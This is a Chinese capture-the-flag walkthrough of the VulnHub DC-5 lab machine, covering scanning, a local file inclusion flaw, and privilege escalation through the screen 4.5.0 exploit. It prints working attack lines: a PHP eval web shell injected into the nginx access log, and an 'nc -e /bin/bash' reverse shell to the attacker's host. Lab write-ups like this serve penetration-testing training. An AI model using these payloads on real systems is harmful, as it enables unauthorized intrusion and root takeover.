


[DC-5文档](https://www.vulnhub.com/entry/dc-5,314/)

### 信息收集

```
靶机MAC地址：00:0C:29:CB:E4:31
```

**主机扫描**

```shell
netdiscover -r 192.168.80.0/24
```


**端口扫描**

```shell
nmap -sV -p- 192.168.80.139
```


### 漏洞发现

浏览器访问80端口


找找有没有能够利用的地方，在`Contact`里发现了类似提交的 东西


发现点击`Submit`提交后，页面会发生变化


用bp抓包看看


将抓取到的数据包发送到`Repeater`，点击`Send`查看返回的数据


不断点击，发现footer不断变化，说明这里可能存在一个独立的脚本文件

爆破一下目录看看

```shell
dirsearch -u 192.168.80.139 -i 200
```


浏览器访问这个`http://192.168.80.139/footer.php` 目录

每点击一次页面上的数字就会变


改成文件包含的形式`?file=`发现同样可以


确定这里存在文件包含漏洞

### 漏洞利用

改变访问路径为`/thankyou.php?file=/etc/passwd` ，可以看到`passwd`文件内容了


说明了程序代码在处理包含文件的时候没有严格控制。我们可以把访问路径更改为木马文件

```php
 /thankyou<?php @eval($_REQUEST[123]);?>
```


发现报 `404未找到`的错误

对于配置了`nginx`的网站，无论网站有什么操作，都会被记录在`/var/log/nginx/access.log`和`/var/log/nginx/error.log`里面

```shell
/thankyou.php?file=/var/log/nginx/access.log
```


木马已经上传，利用中国蚁剑来连接访问

```php
http://192.168.80.139/thankyou.php?file=/var/log/nginx/access.log
```


接下来进行`反弹shell`

kali开启监听

```
nc -lvvp 8989 
```


利用中国蚁剑打开虚拟终端，反弹shell到攻击机kali上

```shell
nc -e /bin/bash 192.168.80.141 8989
```


再看kali这边 ，就已经监听到了


使用python脚本开启交互模式

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```


查看当前权限，发现只是普通的权限



**下一步就该提权了**

### 权限提升

```shell
find / -user root -perm /4000 2>/dev/null
```


发现`screen-4.5.0`比较可疑，尝试用`searchsploit`搜索是否存在漏洞

再打开一个终端，进行漏洞查找

```shell
searchsploit screen 4.5.0
```


找出`41154.sh`的绝对路径

```shell
searchsploit -p linux/local/41154.sh
```


查看文件内容

```shell
cat /usr/share/exploitdb/exploits/linux/local/41154.sh 
```


按照文件的说明，可分为三部分，将第一个框里内容保存为第一文件，名为`libhax.c`，然后使用黄色选取的命令编译，编译结束会生成`libhax.so`文件。

第二个框里内容保存为`rootshell.c`文件，使用黄色选区的命令编译，编译结束后生成`rootshell`文件。

将第三个框里内容保存为第三个文件，保存为run.sh  。 这个名字随意。

第一个文件


第二个文件


第三个文件


把`libhax.c和rootshell.c`拖进 蚁剑


对`libhax.c和rootshell.c`这两个文件进行编译


进到蚁剑的文件管理里面，刷新一下，就能看到编译好的两个文件了


然后把`run.sh`也拖进蚁剑里来， ==注意是`/tmp`下==


这个时候可以把`libhax.c和rootshell.c`这两个文件删除 ，因为已经编译好了，留他们也没有用了


进到kali的python交互shell里，切换到`/tmp`目录下



运行`run.sh`  输入`bash ./run.sh` 提权


可以进行`whoami`查看我是谁


进到`/root`查看有无flag


### 总结

```shell
信息收集
	主机发现  netdiscouver
	端口扫描  nmap
	目录爆破  dirsearch
漏洞利用
	bp抓包分析footer.php,有文件包含漏洞
	木马上传，查看日志
	反弹shell
	python交互shell
提权
	find / -user root -perm /4000 2>/dev/null
	searchsploit screen 4.5.0
	libhax.c和rootshell.c文件的编译  run.sh
	bash ./run.sh  提权
```


